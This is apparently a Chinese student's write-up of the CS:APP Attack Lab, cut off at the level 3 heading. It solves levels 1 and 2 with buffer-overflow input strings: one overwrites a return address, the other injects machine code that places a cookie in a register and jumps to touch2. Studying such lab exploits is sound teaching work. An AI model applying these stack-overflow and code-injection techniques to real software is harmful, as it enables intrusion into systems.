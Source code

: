 lab之前先阅读了该lab的文档 非常关键  
http://csapp.cs.cmu.edu/3e/attacklab.pdf  
Both CTARGET and RTARGET read strings from standard input. They do so with the function getbuf  
defined below:  
```c
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```

正式开始之前先用命令 lscpu | grep -i byte 查看机器是大端还是小端 这会影响输入的顺序  
Byte Order:            Little Endian  
显示为小端机器 则地址顺序相比正常写法需要改变   
如地址0x123456 需要写为 56 34 12  
再将ctarget gtarget用objdump转换成汇编代码以便了解函数地址  

### ***CI level1***
汇编代码中 函数touch1 在地址0x4017c0  
且getbuf有 rsp-0x28 即40bytes  
于是在输入的第40字节后添加地址 4017c0 以替换栈中的ret值  
答案如下  
输入:  00 00 ... 00 c0 17 40  
位数:   0  1 ... 40 41 42 43  

### ***CI level2***
与上题不同 level2 需要编写一个函数将给定的cookie值带入指定的函数   
若直接在返回插入函数地址 加上栈随机化 很难找到正确的函数入口 此时需要利用栈指针直接转跳   
利用栈指针 先找到栈指针位置
Starting program: ctarget -q   
Cookie: 0x59b997fa   
Dump of assembler code for function getbuf:   
=> 0x00000000004017a8 <+0>:	  sub    $0x28,%rsp   
   0x00000000004017ac <+4>:	  mov    %rsp,%rdi   
   0x00000000004017af <+7>:	  callq  0x401a40 <Gets>   
   0x00000000004017b4 <+12>:	mov    $0x1,%eax   
   0x00000000004017b9 <+17>:	add    $0x28,%rsp   
   0x00000000004017bd <+21>:	retq      
End of assembler dump.   
(gdb) p/x $rsp   
$1 = 0x5561dca0   
(gdb) p/x 0x5561dca0-0x28   
$2 = 0x5561dc78   

获得%rsp位置此时还没运行该指令分配空间 需要减去0x24 得到运行后的栈地址0x5561dc78 同样需要转换成小端地址78 dc 61 55   
运行得到的 Cookie: 0x59b997fa    
再查看ctarget的汇编代码 得知touch2的起始地址为 4017ec 即可开始写注入所需的函数   
File\:phase.s   
```assembly
pushq $0x4017ec
movq $0x59b997fa,%rdi
retq
```
使用gcc -c选项编译该文件   
再利用objdump 反编译成机器码得到   
68 ec 17 40 00       	pushq  $0x4017ec   
48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi   
c3                   	retq      

则答案为
68 ec 17 40 00 48 c7 c7 fa 97 
b9 59 c3 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
78 dc 61 55   

### ***CI level3***

